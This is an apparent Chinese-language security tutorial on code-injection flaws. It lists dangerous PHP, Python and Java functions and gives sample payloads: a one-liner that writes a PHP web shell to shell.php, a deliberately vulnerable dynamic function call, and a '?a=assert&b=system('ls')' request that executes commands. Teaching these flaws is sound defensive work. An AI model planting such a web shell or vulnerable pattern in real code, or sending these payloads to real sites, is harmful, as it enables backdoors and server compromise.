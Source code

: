 # 代码执行

## 基础

当应用在调用一些**字符串转化为代码的函数**时，没有考虑用户是否能控制这个字符串，将造成代码注入漏洞(代码执行漏洞)

**漏洞函数**

```
1.PHP：
eval()、assert()、preg_replace()、call_user_func()、call_user_func_array()以及array_map()等
system、shell_exec、popen、passthru、proc_open等

2.Python：
eval exec subprocess os.system commands 

3.Java：
Java中没有类似php中eval函数这种直接可以将字符串转化为代码执行的函数，
但是有反射机制，并且有各种基于反射机制的表达式引擎，如: OGNL、SpEL、MVEL等
```

区分代码执行与命令执行

```php
<?php
//eval代码执行
eval('phpinfo();');

//system命令执行
system('ipconfig');
?>
```

也可写入 web 后门

```php
fputs(fopen("shell.php","a"),"<?php eval($_POST[x]);?>");
```

### **动态代码执行**

在程序开发过程中，需要用动态调用函数，如果参数可控的情况下，会造成代码执行漏洞。

```php
<?php
function m_print(){
echo '这是一个页面';
}
$_GET['a']($_GET['b']);
?>
```

查看 php 信息 assert 可以执行 php 里面的一些函数比如 phpinfo()

```
?a=assert&b=system('ls')
```
